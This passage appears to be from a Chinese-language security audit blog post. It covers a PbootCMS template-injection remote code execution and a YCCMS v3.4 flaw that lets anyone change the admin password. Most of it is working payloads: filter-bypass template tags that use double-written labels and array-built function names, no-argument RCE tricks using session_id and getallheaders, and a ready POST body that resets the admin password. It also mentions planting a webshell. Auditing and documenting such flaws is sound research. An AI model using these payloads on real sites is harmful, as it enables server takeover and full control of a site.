 ```php
        }
        return $content;
    }
```
在函数名和括号间可以插入控制字符[\x00-\x20]，PHP引擎会忽略这些控制字符，那么就可以绕过这个正则了
```php
preg_match_all('/([\w]+)([\\\s]+)?\(/i', $matches[1][$i], $matches2)
```
这里在`core/basic/Model.php`，多加了一层过滤，也可以双写绕过
![](https://img-blog.csdnimg.cn/20210703180042504.png)
```php
{pbootpbootpboot:if:if:if(implode('', ['c','a','l','l','_','u','s','e','r','_','f','u','n','c'])(implode('',['p','h','p','i','n','f','o'])))}!!!{/pbootpbootpboot:if:if:if}
```
![](https://img-blog.csdnimg.cn/20210703180644106.png)
成功得到phpinfo，那么尝试rce
![](https://img-blog.csdnimg.cn/20210703180725195.png)
可以任意文件读取，但由于禁用了函数，需要使用无参数rce的方法
```php
{pbootpbootpboot:if:if:if(array_filter (['whoami'],session_id (session_start ())))}!!!{/pbootpbootpboot:if:if:if}
```
![](https://img-blog.csdnimg.cn/2021070319213569.png)
那么就可以写入一句话木马了


参考：[从PbootCMS审计到某狗绕过](https://www.freebuf.com/articles/web/253403.html)
#### 后台模板注入
同样是使用了parserIfLabel函数，在后台的基础内容、站点信息可以成功解析`{pboot:if(1)}OK{/pboot:if}`
![](https://img-blog.csdnimg.cn/20210703212414207.png)
这里使用另一种无参数rce，使用的getallheaders()
```php
{pboot:if(call_user_func (next (getallheaders ()),next (array_reverse (getallheaders ()))))}test{pboot:if}
```
![](https://img-blog.csdnimg.cn/20210703212143933.png)

参考：[PbootCMS v2.0.9 远程代码执行漏洞](https://www.hacking8.com/bug-web/PbootCMS/PbootCMS-v2.0.9-%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html)

## YCCMS_v3.4
直接安装就可以了
### 越权修改管理员账号密码
在`/admin/?a=admin&m=update`处，未对用户的身份进行验证，导致可以直接修改管理员密码
```
username=admin&password=123456&notpassword=123456&send=%E4%BF%AE%E6%94%B9%E5%AF%86%E7%A0%81
```
![](https://img-blog.csdnimg.cn/20210704153832532.png)
漏洞在`controller/AdminAction.class.php`
```php
	public function update(){
		if(isset($_POST['send'])){
			if(validate::isNullString($_POST['username'])) Tool::t_back('用户名不能为空','?a=admin&m=update');
			if(validate::isNullString($_POST['password'])) Tool::t_back('密码不能为空!','?a=admin&m=update');
			if(!(validate::checkStrEquals($_POST['password'], $_POST['notpassword']))) Tool::t_back('两次密码不一致!','?a=admin&m=update');
			$this->_model->username=$_POST['username'];
			$this->_model->password=sha1($_POST['password']);
			$_edit=$this->_model->editAdmin();
```